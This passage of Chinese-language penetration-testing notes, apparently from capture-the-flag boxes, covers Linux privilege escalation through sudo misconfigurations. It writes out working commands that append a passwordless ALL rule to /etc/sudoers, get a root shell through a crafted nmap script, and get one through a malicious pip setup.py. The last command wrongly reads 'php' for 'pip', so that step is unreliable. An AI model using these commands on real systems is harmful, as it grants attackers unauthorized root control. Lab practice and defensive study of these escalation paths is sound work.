 ```python
echo "charles ALL=(ALL) NOPASSWD: ALL" | sudo teehee -a /etc/sudoers
```

## sudo nmap

`-script`是可以执行脚本的，指定提权行为的脚本就行

```python
$ echo "os.execute('/bin/sh')" > getshell.nse
echo "os.execute('/bin/sh')" > getshell.nse
$ ls
ls
backups.sh  backups.tar.gz  getshell.nse  test.sh
$ sudo nmap --script=getshell.nse
sudo nmap --script=getshell.nse

Starting Nmap 7.40 ( https://nmap.org ) at 2024-11-03 03:25 AEST
# 
```

## sudo pip

当存在

```python
arsene@LupinOne:/usr/lib/python3.9$ sudo -l
Matching Defaults entries for arsene on LupinOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
```

权限的时候可以利用`pip install`进行本地提权

https://gtfobins.github.io/gtfobins/pip/

```python
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
```

```python
sudo php install $TF
```